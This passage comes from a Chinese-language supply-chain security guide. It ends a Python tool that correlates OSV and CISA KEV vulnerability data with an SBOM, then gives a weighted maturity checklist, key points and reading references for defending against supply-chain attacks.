                'severity': vuln.get('severity', [{}])[0].get('score', 'UNKNOWN'),
                'package_name': package,
                'package_ecosystem': ecosystem,
                'description': vuln.get('summary', ''),
                'remediation': self._extract_fix_version(vuln)
            })

        return threats

    def correlate_with_sbom(self, sbom_path: str) -> List[Dict]:
        """将威胁情报与 SBOM 关联"""
        with open(sbom_path) as f:
            sbom = json.load(f)

        all_threats = []

        for component in sbom.get('components', []):
            package_name = component['name']
            ecosystem = self._map_purl_to_ecosystem(component.get('purl', ''))

            threats = []
            threats.extend(self.fetch_osv_threats(ecosystem, package_name))

            for threat in threats:
                threat['affected_component'] = {
                    'name': package_name,
                    'version': component.get('version'),
                    'locations': component.get('locations', [])
                }
                all_threats.append(threat)

        return all_threats

    def generate_alert(self, threats: List[Dict]) -> str:
        """生成告警报告"""
        if not threats:
            return "未发现新威胁"

        critical = [t for t in threats if t['severity'] == 'CRITICAL']
        high = [t for t in threats if t['severity'] == 'HIGH']

        report = f"""
供应链威胁情报告警
{'=' * 60}

时间: {datetime.utcnow().isoformat()}Z

威胁统计:
  - CRITICAL: {len(critical)}
  - HIGH: {len(high)}
  - TOTAL: {len(threats)}

关键威胁:
"""
        for threat in critical[:5]:
            report += f"""
  [{threat['id']}] {threat['description']}
    Package: {threat.get('package_name', 'N/A')}
    Source: {threat['source']}
    Remediation: {threat.get('remediation', 'Under investigation')}
"""

        report += f"\n完整报告已保存至数据库\n"
        return report

    def _extract_fix_version(self, vuln: Dict) -> str:
        """从漏洞数据中提取修复版本"""
        for affected in vuln.get('affected', []):
            for r in affected.get('ranges', []):
                for event in r.get('events', []):
                    if 'fixed' in event:
                        return event['fixed']
        return 'No fix available'

    def _map_purl_to_ecosystem(self, purl: str) -> str:
        """将 PURL 映射到生态系统标识"""
        mapping = {
            'pkg:maven': 'Maven',
            'pkg:npm': 'npm',
            'pkg:pypi': 'PyPI',
            'pkg:cargo': 'crates.io',
            'pkg:golang': 'Go',
            'pkg:nuget': 'NuGet'
        }
        for prefix, ecosystem in mapping.items():
            if purl.startswith(prefix):
                return ecosystem
        return 'Unknown'

if __name__ == '__main__':
    intel = SupplyChainThreatIntel()

    print("检查 CISA 已知被利用漏洞...")
    cisa_threats = intel.fetch_cisa_kev()

    print("分析 SBOM 中的威胁...")
    sbom_threats = intel.correlate_with_sbom('./sbom.cyclonedx.json')

    all_threats = cisa_threats + sbom_threats
    alert = intel.generate_alert(all_threats)
    print(alert)
```

**适用边界**：威胁情报系统适用于拥有 SBOM 管理能力的组织；缺乏 SBOM 的组织应先建立组件可见性。

**关键约束**：情报源的准确性和时效性差异较大；API 调用频率受限于各平台配额。

**验证方法**：注入已知漏洞组件，验证情报系统是否检出；对比多个情报源的检出结果以评估覆盖率。

**运行指标**：情报获取延迟（从漏洞公开到系统收录的时间差）；SBOM 与情报关联匹配率；误报率（人工确认后统计）。

---

## 7.2.6 实践检查清单

### 供应链攻击防御成熟度评估

以下检查清单用于评估组织的供应链安全成熟度，分为四个级别。每个检查项标注权重分数，总分用于判定成熟度等级。

```
## Level 1: 基础防护 (0-25 分)

### 源代码安全
- [ ] (2) 启用双因素认证 (2FA)
- [ ] (3) 实施代码审查流程
- [ ] (2) 配置分支保护规则

### 依赖管理
- [ ] (3) 使用依赖锁文件 (package-lock.json, Pipfile.lock)
- [ ] (2) 定期运行 npm audit / pip-audit
- [ ] (3) 生成基础 SBOM

### 构建安全
- [ ] (2) 隔离构建环境
- [ ] (3) 记录构建日志
- [ ] (2) 使用固定版本工具链

### 分发安全
- [ ] (3) 使用 HTTPS 分发制品

小计: ___ / 25

---

## Level 2: 管理防护 (26-50 分)

### 源代码安全
- [ ] (3) 要求提交签名 (GPG)
- [ ] (4) 集成 SAST 工具到 CI/CD
- [ ] (3) 自动化密钥扫描 (Trufflehog)

### 依赖管理
- [ ] (4) 部署 SCA 工具 (Snyk/Dependabot)
- [ ] (3) 自动化依赖更新
- [ ] (4) 实施许可证合规检查

### 构建安全
- [ ] (4) 使用容器化构建环境
- [ ] (3) 生成构建日志摘要
- [ ] (3) 实施构建再现性

### 分发安全
- [ ] (4) 对制品进行基础签名

小计: ___ / 25

---

## Level 3: 主动防护 (51-75 分)

### 源代码安全
- [ ] (4) 实施零信任访问 (ZTNA)
- [ ] (3) 部署开发环境 EDR

### 依赖管理
- [ ] (5) 生成 SLSA Level 2+ 证明
- [ ] (4) 实施依赖防火墙 (Artifactory/Nexus)
- [ ] (4) 监控上游维护者变更

### 构建安全
- [ ] (5) 实施 Hermetic Builds (Bazel/Nix)
- [ ] (4) 使用临时构建环境 (Firecracker)

### 分发安全
- [ ] (5) Sigstore/Cosign 签名
- [ ] (4) 部署准入控制 (OPA/Kyverno)

小计: ___ / 25

---

## Level 4: 优化防护 (76-100 分)

### 源代码安全
- [ ] (5) AI 驱动的代码异常检测

### 依赖管理
- [ ] (5) 实施供应链威胁情报系统
- [ ] (5) 自动化漏洞修复 (Auto-PR)

### 构建安全
- [ ] (5) 实现 SLSA Level 4

### 分发安全
- [ ] (5) 客户可验证的供应链

小计: ___ / 25

---

总分: ___ / 100

成熟度等级:
- 0-25: Level 1 - 响应式
- 26-50: Level 2 - 管理式
- 51-75: Level 3 - 主动式
- 76-100: Level 4 - 优化式
```

---

## 本节要点

供应链攻击的核心特征是"力量倍增"——渗透一个供应商可能影响大量下游客户。防御供应链攻击需要在软件生命周期的每个阶段建立检测和防护控制，单一防御层无法应对复杂攻击。

自动化是供应链安全的基础能力要求。人工审查无法扩展到现代软件的依赖规模，必须依赖自动化工具实现 SBOM 生成、依赖扫描、签名验证和策略执行。

威胁情报的价值在于将被动响应转变为主动防御。通过集成多个威胁情报源并与 SBOM 关联，组织可以在攻击发生前获得预警并采取缓解措施。

零信任原则应用于供应链意味着在每个阶段都要验证，不盲目信任任何上游组件或构建产物。签名验证、来源证明（provenance attestation）和准入控制是落地零信任的关键机制。

---

## 延伸阅读

- CISA: Defending Against Software Supply Chain Attacks
- SLSA: Supply-chain Levels for Software Artifacts (https://slsa.dev)
- NIST SP 800-161: Cybersecurity Supply Chain Risk Management
- MITRE ATT&CK: Software Supply Chain Compromise (T1195)

---

**[← 7.1 软件供应链安全战略](7.1_software_supply_chain_strategy.md)** | **[返回章节目录](README.md)** | **[7.3 开源组件治理 →](7.3_open_source_governance.md)**

---

© 2025 AI-ESA Project. Licensed under CC BY-NC-SA 4.0
